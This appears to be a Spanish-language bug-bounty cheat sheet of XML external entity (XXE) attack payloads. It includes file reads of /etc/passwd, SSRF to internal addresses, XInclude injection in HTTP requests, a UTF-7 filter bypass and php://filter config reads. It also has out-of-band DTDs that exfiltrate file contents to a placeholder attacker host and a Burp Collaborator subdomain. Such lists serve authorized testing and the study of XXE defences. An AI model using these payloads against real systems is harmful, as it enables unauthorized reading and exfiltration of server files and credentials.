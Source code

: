```yaml
---
layout: post
title:  "XXE-Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/158905099-e3bd6d01-a91d-486b-8d64-db4dd55f97cd.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```


## XXE payloads 
**LFI Test**

```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```
---
## XXE a SSRF 
**Viendo archivos de un servidor interno**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://192.168.0.1">]>
<foo>&xxe;</foo>
```

---

## Ver si existe una XXE sin que se vea en la peticion
**XXE blind en peticion**
Una forma de identificar una XML blind en una petición: Si la aplicación incrusta los datos enviados en un documento XML y luego se analiza el documento como pasa en una solicitud SOAP de backend. Podemos probar a inyectar XInclude que es una parte de la especificación XML que permite crear un documento XML a partir de subdocumentos, Ej:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>



    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

 **Tambien se podria usar esto en caso de que sea blind**
 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>

    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=1&storeId=1
    ------------------------------
    POST /product/stock HTTP/1.1
    Host: dominio.com
    Content-Length: 126
    
    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="http://web-atacante.com"/></foo>&storeId=1
```

**Blind XXE test (Cuando no devuelve valores)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://subdominio.burpcolaborator.net/?%xxe;">]>
<foo>&blind;</foo>
```
---
## Inyectar codigo desde otra web
**Inyectar codigo desde tu web:**
```xml
Necesitas disponer de codigo.dtd en tu web de atacante
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/codigo.dtd"> %xxe;]>
```
---
## XXE bypass
**XXE UTF-7**

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://web-atacante.com+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

---
## Acess Control bypass en XXE
**Access Control bypass (cargando datos confidenciales)**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY cargar SYSTEM "php://filter/read=convert.base64-encode/resource=http://web-vulnerable.com/config.php">]>
<foo><result>&cargar;</result></foo>
```
---

## Ataques XXE Out-Of-Band:

**EJEMPLO 1**
- Se inyecta en el valor &xxe; en uno de los valores xml que se envian
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://web-atacante.com"> ]>
```

**EJEMPLO 2**
- Payload que incluiremos completo en el valor xml que se envia. Hará una peticion a la web del atacante, asi podremos saber si realmente procesa la informacion que le mandamos.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com"> %xxe; ]>
```

**EJEMPLO 3**
- Este codigo es de http://web-atacante.com/cositas.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://subdominio.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

- Inyeccion XML antes de los valores de la pagina, inyectará el codigo de cositas.dtd en la pagina

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**EJEMPLO 4**
- XXE BLIND basado en mensaje de error
- Este codigo es de http://web-atacante.com/cositas.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///estonoexiste/%file;'>">
%eval;
%error;
```

- Inyeccion XML en la pagina, inyectará el codigo de cositas.dtd 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-atacante.com/cositas.dtd"> %xxe;]>
```

**EJEMPLO 5**
- Explotando una XXE abusando de los archivos DTD del sistema, en el archivo llama a ISOamso, usaremos esa variable para explotar la XXE creando un xml personalizado que realice la funcion de llamar al archivo de /etc/passwd que es el objetivo. 

```xml
<!DOCTYPE foo [<!ENTITY % el_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"><!ENTITY % ISOamso '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"><!ENTITY &#x25; variable "<!ENTITY &#x26;#x25; errormensaje SYSTEM &#x27;file:///estonoexiste/&#x25;file;&#x27;>">&#x25;variable; &#x25;errormensaje;'>%el_dtd;]>
```
